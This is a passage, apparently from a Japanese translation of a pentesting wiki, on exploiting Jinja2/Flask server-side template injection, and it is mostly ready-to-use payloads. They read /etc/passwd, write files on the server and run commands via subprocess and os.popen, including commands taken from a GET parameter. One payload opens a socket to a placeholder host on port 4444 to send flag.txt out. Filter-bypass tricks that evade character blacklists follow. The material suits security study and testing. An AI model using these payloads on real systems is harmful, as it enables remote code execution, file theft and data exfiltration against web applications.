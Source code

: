 ```python
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```
### RCE エスケープ

`<class 'object'>` を**回復した後**、`__subclasses__` を呼び出して、ファイルの読み書きやコードの実行に使用できるクラスを利用できるようになりました。

`__subclasses__` の呼び出しにより、**何百もの新しい関数にアクセスする機会**が得られましたが、**ファイルクラスにアクセスしてファイルを読み書きする**ことや、コマンドを実行する機能を持つクラス（`os` のような）にアクセスするだけで満足します。

**リモートファイルの読み書き**
```python
# ''.__class__.__mro__[1].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
**RCE（リモートコード実行）**
```python
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

# Calling os.popen without guessing the index of the class

{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

## Passing the cmd line in a GET param
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{% endraw %}


```
**より多くのクラス**について学ぶために、**エスケープ**するために使用できるものを**確認**するには：

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### フィルターのバイパス

#### 一般的なバイパス

これらのバイパスにより、一部の文字を**使用せずに**オブジェクトの**属性**に**アクセス**することができます。\
これらのバイパスのいくつかは前の例で既に見ていますが、ここでそれらをまとめてみましょう：
```bash
# Without quotes, _, [, ]
## Basic ones
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

## Using request object options
```